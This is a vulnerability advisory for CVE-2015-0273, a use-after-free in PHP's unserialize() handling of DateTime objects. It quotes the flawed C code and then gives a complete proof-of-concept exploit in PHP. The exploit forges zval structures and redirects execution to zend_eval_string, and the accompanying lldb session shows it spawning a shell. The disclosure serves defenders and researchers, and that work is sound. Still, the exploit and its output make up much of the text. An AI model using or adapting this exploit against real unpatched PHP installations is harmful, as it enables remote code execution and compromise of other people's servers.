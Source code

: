 ### Use After Free Vulnerability in unserialize() with DateTime* [CVE-2015-0273]
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20
 
> A use-after-free vulnerability was discovered in unserialize() with DateTime/DateTimeZone/DateInterval/DatePeriod objects's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.6  
Affected is PHP 5.5 < 5.5.22  
Affected is PHP 5.4 < 5.4.38

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_initialize_from_hash(php_date_obj **dateobj, HashTable *myht)
{
	zval             *z_date;
	zval             *z_timezone;
	zval             *z_timezone_type;
	zval              tmp_obj;
	timelib_tzinfo   *tzi;
	php_timezone_obj *tzobj;

	z_date = zend_hash_str_find(myht, "date", sizeof("data")-1);
	if (z_date) {
		convert_to_string(z_date);
		z_timezone_type = zend_hash_str_find(myht, "timezone_type", sizeof("timezone_type")-1);
		if (z_timezone_type) {
			convert_to_long(z_timezone_type);
			z_timezone = zend_hash_str_find(myht, "timezone", sizeof("timezone")-1);
			if (z_timezone) {
				convert_to_string(z_timezone);

...

static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
```
 
The convert_to_long() leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\x00\x00\x00\x00";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;R:4;}s:8:"timezone";s:3:"UTC";}}';

$z = unserialize($data2);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
